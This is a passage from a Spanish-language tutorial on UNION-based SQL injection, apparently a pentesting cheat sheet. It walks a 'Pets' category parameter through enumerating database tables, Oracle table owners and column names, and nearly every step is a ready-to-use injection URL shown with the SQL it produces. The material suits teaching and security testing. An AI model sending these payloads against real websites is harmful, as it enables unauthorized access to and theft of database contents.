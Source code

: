 {% hint style="info" %}
Si ejecutas esta consulta puedes ver todas las tablas de todas las BBDD:

```url
https://myshop.com/filter?category=Pets' union select NULL, table_name from information_schema.tables-- -
```

```sql
SELECT * FROM products WHERE category = 'Pets' UNION SELECT NULL, table_name FROM information_schema.tables-- -'
```
{% endhint %}

#### Oracle

Para enumerar todas las tablas de una BBDD Oracle, lo podemos hacer de la siguiente forma

```url
https://myshop.com/filter?category=Pets' union select NULL, table_name from all_tables-- -
```

```sql
SELECT * FROM products WHERE category = 'Pets' UNION SELECT NULL, table_name FROM all_tables-- -'
```

También podemos filtrar por los usuarios, y posteriormente por las tablas de cada usuario:

```
https://myshop.com/filter?category=Pets' union select NULL, owner from all_tables-- -
```

```sql
SELECT * FROM products WHERE category = 'Pets' UNION SELECT NULL, owner FROM all_tables-- -'
```

Ahora filtramos por las tablas que tiene un usuario:

```
https://myshop.com/filter?category=Pets' union select NULL, table_name from all_tables where owner = 'Admin'
```

```sql
SELECT * FROM products WHERE category = 'Pets' UNION SELECT NULL, table_name FROM all_tables WHERE owner = 'Admin'-- -'
```

### Enumerar las Columnas

Cuando tenemos las BBDD y sus respectivas tablas, ya podremos enumerar las columnas de las respectivas tablas de la siguiente forma:

<pre class="language-url" data-full-width="false"><code class="lang-url"><strong>https://myshop.com/filter?category=Pets' union select NULL, column_name from information_schema.columns where table_schema = 'Name_BD' and table_name = 'Name_Table'-- -
</strong></code></pre>

{% code fullWidth="false" %}
```sql
SELECT * FROM products WHERE category = 'Pets' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_schema = 'Name_BD' AND table_name = 'Name_Table'-- -'
```
{% endcode %}
